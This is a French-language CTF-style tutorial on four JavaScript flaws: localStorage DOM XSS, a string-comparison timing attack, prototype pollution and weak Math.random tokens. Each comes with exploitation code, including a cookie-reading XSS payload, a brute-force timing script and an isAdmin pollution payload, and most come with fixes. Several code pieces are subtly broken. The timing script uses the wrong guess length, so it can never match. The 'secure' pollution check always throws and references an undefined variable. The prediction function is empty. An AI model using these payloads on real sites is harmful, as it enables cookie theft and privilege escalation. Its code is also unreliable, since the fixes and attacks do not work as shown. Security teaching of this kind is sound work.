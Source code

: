 # Vulnérabilités JavaScript pour CTF

---

## 1. Injection JavaScript via localStorage

### Code Vulnérable
```javascript
function displayLastSearch() {
    let lastSearch = localStorage.getItem('lastSearch');
    document.getElementById('searchHistory').innerHTML = `
        Dernière recherche : ${lastSearch}
    `;
}
```

### Explication
Cette fonction récupère une valeur de localStorage et l'insère directement dans le DOM en utilisant innerHTML. Comme le contenu n'est pas assaini, un attaquant peut injecter du HTML malveillant qui sera exécuté lors de l'affichage.

### Exploitation
1. Ouvrir la console du navigateur
2. Injecter du code malveillant dans localStorage:
```javascript
localStorage.setItem('lastSearch', '<img src=x onerror="alert(document.cookie)">');
```
3. Lors du prochain chargement de la page, le code sera exécuté

### Solution Sécurisée
```javascript
function secureDisplayLastSearch() {
    let lastSearch = localStorage.getItem('lastSearch');
    document.getElementById('searchHistory').textContent = lastSearch;
}
```

## 2. Timing Attack sur Comparaison de Chaînes

### Code Vulnérable
```javascript
async function compareSecret(userInput) {
    const secret = "CTF_SECRET_FLAG_2024";
    if (userInput.length !== secret.length) return false;
    
    for (let i = 0; i < secret.length; i++) {
        if (userInput[i] !== secret[i]) return false;
        await new Promise(resolve => setTimeout(resolve, 50));
    }
    return true;
}
```

### Explication
Cette fonction compare un input utilisateur avec un secret caractère par caractère. Le délai artificiel rend l'attaque plus évidente, mais même sans lui, la comparaison caractère par caractère crée une différence de timing mesurable.

### Exploitation
```javascript
async function timingAttack() {
    const charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ_0123456789';
    let flag = '';
    
    for (let position = 0; position < 16; position++) {
        let maxTime = 0;
        let likelyChar = '';
        
        for (const char of charset) {
            const testFlag = flag + char + 'A'.repeat(15 - position);
            const startTime = performance.now();
            await compareSecret(testFlag);
            const endTime = performance.now();
            const duration = endTime - startTime;
            
            if (duration > maxTime) {
                maxTime = duration;
                likelyChar = char;
            }
        }
        flag += likelyChar;
        console.log(`Position ${position}: Found ${likelyChar} (Flag so far: ${flag})`);
    }
}
```

## 3. Prototype Pollution via Configs

### Code Vulnérable
```javascript
function mergeConfig(userConfig) {
    const defaultConfig = {
        theme: 'light',
        language: 'fr'
    };
    return Object.assign({}, defaultConfig, JSON.parse(userConfig));
}
```

### Explication
Cette fonction fusionne une configuration utilisateur avec des valeurs par défaut. En ne validant pas l'entrée JSON, elle permet à un attaquant de polluer le prototype d'Object et d'injecter des propriétés malveillantes qui affecteront tous les objets.

### Exploitation
1. Créer un payload qui cible le prototype:
```javascript
const maliciousConfig = '{"__proto__": {"isAdmin": true}}';
mergeConfig(maliciousConfig);

// Maintenant, tout nouvel objet aura isAdmin = true
console.log({}.isAdmin); // true
```

2. Impact: Si l'application vérifie les privilèges avec `config.isAdmin`, la pollution permet de bypasser la sécurité

### Solution Sécurisée
```javascript
function secureConfig(userConfig) {
    const config = JSON.parse(userConfig);
    if ('__proto__' in config) {
        throw new Error('Prototype pollution detected');
    }
    return Object.assign({}, defaultConfig, config);
}
```

## 4. Weak Random Token Generation

### Code Vulnérable
```javascript
function generateSessionToken() {
    return Math.random().toString(36).substring(2);
}
```

### Explication
Cette fonction utilise Math.random() pour générer des tokens de session. Math.random() n'est pas cryptographiquement sûr et peut être prédit si on collecte suffisamment d'échantillons.

### Exploitation
```javascript
// Collecte de tokens
const tokens = [];
for(let i = 0; i < 1000; i++) {
    tokens.push(generateSessionToken());
}

// Analyse des patterns et prédiction des prochains tokens
function predictNextToken(tokens) {
    // L'implémentation dépend du PRNG utilisé par le navigateur
    // Mais Math.random() suit souvent des patterns prévisibles
    // après suffisamment d'observations
}
```

### Solution Sécurisée
```javascript
function secureGenerateToken() {
    const array = new Uint32Array(4);
    crypto.getRandomValues(array);
    return Array.from(array, x => x.toString(16)).join('');
}
```

## Ressources Additionnelles

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [Web Security Academy](https://portswigger.net/web-security)
- [Google Web Security Guide](https://developers.google.com/web/fundamentals/security)

